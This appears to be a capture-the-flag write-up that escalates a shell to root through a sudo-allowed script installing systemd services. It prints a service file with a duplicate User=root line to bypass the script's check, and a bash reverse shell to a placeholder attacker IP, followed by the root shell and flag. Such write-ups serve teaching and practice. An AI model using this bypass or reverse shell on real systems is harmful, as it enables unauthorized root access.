

# OMM API root
*Disclaimer: We solved this challenge after the CTF had ended. During the ctf we got to the very last step trying to bypass the if-check.*

<p align="center">
    
</p>

We currently have shell as the `f_omm_app` user. In the `OMM API user` challenge we got a reverse shell, which we now have upgraded to a ssh-shell by adding our ssh-publickey to `/home/f_omm_app/.ssh/authorized_keys`.
```
f_omm_app@ip-10-128-3-164:~$ id
uid=1002(f_omm_app) gid=1003(f_omm_app) groups=1003(f_omm_app),1001(hpc_users_rd)
```

`f_omm_app` have sudo permissions on the box, but only for certain commmands.
```
f_omm_app@ip-10-128-3-164:~$ sudo -l
Matching Defaults entries for f_omm_app on ip-10-128-3-164:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin\:/opt/pbs/bin, use_pty

User f_omm_app may run the following commands on ip-10-128-3-164:
    (ALL : ALL) NOPASSWD: /opt/pbs/bin/qsub, /opt/pbs/bin/qdel, /prog/util/sbin/appsysctladd, /usr/bin/systemctl restart *
```

The first two scripts, `/opt/pbs/bin/qsub` and `/opt/pbs/bin/qdel` doesn't do much.
```
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qsub
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qdel
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
```

The command `/usr/bin/systemctl restart *` allows us to restart the systemctl services, but does not turn out to be very useful for us. [/prog/util/sbin/appsysctladd](./appsysctladd.sh) is the most interesting script that we can run.
`appsysctladd` is a bash script which takes one or more directories as arguments. For each directory-argument given it searches for the directory `$HOSTNAME` and starts each `.service` file as a `systemctl` service. This means that if we create a service file with `User=root` the created service should execute our defined command as `root`!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ ls
eic-hostkey-MGy07Txb  ip-10-128-3-164

f_omm_app@ip-10-128-3-164:/dev/shm$ ls ip-10-128-3-164/
test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=root

[Install]
WantedBy=multi-user.target
```

```
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: /dev/shm/ip-10-128-3-164/test.service was rejected. User and Group must match file user and group
```

Unfortunately, that would be too easy. Looking closer into the `/prog/util/sbin/appsysctladd` script we can see the following check:
```
U=$( stat -c '%U' "${SRV}" )
G=$( stat -c '%G' "${SRV}" )

if egrep -q "^User=${U}$" "${SRV}" && egrep -q "^Group=${G}$" "${SRV}"
then
    SRVNAME=$( basename "${SRV}" )
    echo "$PROG: Setting up systemd service from ${SRV}"
    install -g root -o root -m 644 "${SRV}" "${SYSTEMD}/${SRVNAME}" && \
    systemctl daemon-reload && \
    systemctl start "${SRVNAME}" && \
    systemctl enable "${SRVNAME}"
else
    echo "$PROG: ${SRV} was rejected. User and Group must match file user and group"
fi
```

The script gets the username and group of the owner of the file, and checks that it match the `User` and `Group` the service is set to run as. This check is however not bulletproff, as it only checks if `User=f_omm_app` and `Group=f_omm_app` *exist* in the service file. So what happens if the service file contains the following?
```¨
User=f_omm_app
Group=f_omm_app
User=root
```

Turns out, when a field is set *twice* it is the *latest* occurrence of the field that takes precedence. Thus, we can bypass the if-check in the `appsysctladd` script by including `User=f_omm_app`, but then set `User=root` afterwards to make the service execute as root.
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target

f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat /tmp/output
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
```

With this knowledge, we can swap out the `ExecStart` POC with a reverse shell to get root, and the flag!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service
```

```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.128.1.12] from (UNKNOWN) [10.128.3.164] 54920
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
# cat /root/root.txt
EPT{PR1V35C_15_700_345Y_F0R_Y0U_GJ_WP!}
```